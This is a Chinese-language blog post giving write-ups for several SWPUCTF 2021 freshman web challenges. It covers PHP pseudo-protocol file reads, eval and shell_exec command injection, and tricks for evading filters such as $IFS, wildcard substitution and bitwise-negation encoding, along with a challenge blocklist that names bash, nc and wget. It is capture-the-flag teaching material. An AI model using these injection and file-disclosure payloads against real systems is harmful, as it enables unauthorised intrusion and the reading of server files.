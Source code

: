 ```yaml
---
title: SWPUCTF 2021 新生赛
date: 2022-05-14 22:12:01
tags:
- CTF
- php伪协议
- RCE
categories: CTF
my: SWPUCTF_freshman-match
---
```


 

部分题目WP

## **PseudoProtocols**(伪协议)

看到题目就是伪协议   直接用下面代码查看hint.php

```
?wllm=php://filter/read=convert.base64-encode/resource=hint.php
```

base64解码后看见

```
<?php
//go to /test2222222222222.php
?>
```

直接访问出现下列代码

```
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?>
```

第一种解法用下面的payload就可以得到flag

```
?a=data://text/plain,I want flag
```

第二种解法

```
?a=php://input
```

用burp  POST传参也能得到flag

![](https://s2.loli.net/2022/05/15/dsHFWywYONq2LMp.png)

## **include**

直接由题意传file    直接?file=1

![](https://s2.loli.net/2022/05/15/eDBxHYfQFMbz2uN.png)

"allow_url_include"，"on"意味存在着文件包含漏洞  payload如下  也可查看[php伪协议](https://segmentfault.com/a/1190000018991087)

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

![](https://s2.loli.net/2022/05/15/DwGZmnfPHuSzTq1.png)

再进行base64解码得到flag

## **RCE部分**

### **easyrce**

源码

```
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?>
```

有eval 但是是get传参 将传入的内容作为php代码执行 利用php可以执行Linux命令

用下列payload查看根目录

```
?url=system('ls /');
```

![](https://s2.loli.net/2022/05/15/OukxLdMYW93ZaoQ.png)

发现在根目录下  直接cat指令读取文件  拿到flag

```
?url=system('cat /flllllaaaaaaggggggg');
```

### **babyrce**

源码：

```
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！
```

看见题目 cookie传参，键名为admin，值为1，直接传

![](https://s2.loli.net/2022/05/15/ns2AIqJNZ9OrdTc.png)

发现rasalghul.php我们去访问

```
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');   //这里过滤了空格 如果 用到了空格输出nonono
  }
  $a = shell_exec($ip);
  echo $a;
}
?>
```

我们可以用其他符号代替$IFS、IFS$9、%09具体可以百度

直接看根目录  发现 flag  

![](https://s2.loli.net/2022/05/15/ZmyugPC1AJQX9I6.png)

然后cat 拿到flag

![](https://s2.loli.net/2022/05/15/UirzT23vXxMLuRW.png)



### **finalyrce**

```
<?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
}
```

这道题就过滤了很多字符   通过[Linux tee命令](https://www.runoob.com/linux/linux-comm-tee.html)写入文件 用dir / | tee guxi可以在当前目录下生成guxi文件

然后去访问url/guxi就可以访问guxi文件

![](https://s2.loli.net/2022/05/15/SbpIiMAmDntJqTO.png)

找到flag  可以用tac代替cat命令  发现直接读取不行   仔细代码审计发现过滤了la没有过滤?我们可以用?代替字母即可

![](https://s2.loli.net/2022/05/15/ifIbCKlPdZozrcn.png)

然后再访问guxi文件就能看见flag

![](https://s2.loli.net/2022/05/15/G8anzRiSHvUb7Z4.png)

### **hardrce**

源码:

```
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
?> 蔡总说：注意审题！！！
```

打开题目 我直接人麻了  过滤了很多  但仔细看有一个符号没有被过滤“~”取反符号

具体可查看[此文章](https://blog.csdn.net/WilliamsWayne/article/details/78259501)

百度用php在线工具   直接取反命令

![](https://s2.loli.net/2022/05/15/5prIwVCvGzoiKU3.png)

查看到了根目录 

![](https://s2.loli.net/2022/05/15/ZhM9e5Hz2Vrj6Uy.png)

在取反cat命令

![](https://s2.loli.net/2022/05/15/an5mp489BQt3L2z.png)

直接拿到flag

![](https://s2.loli.net/2022/05/15/FThj4ElRCK9rVwL.png)



还有一道我太菜了 写不来
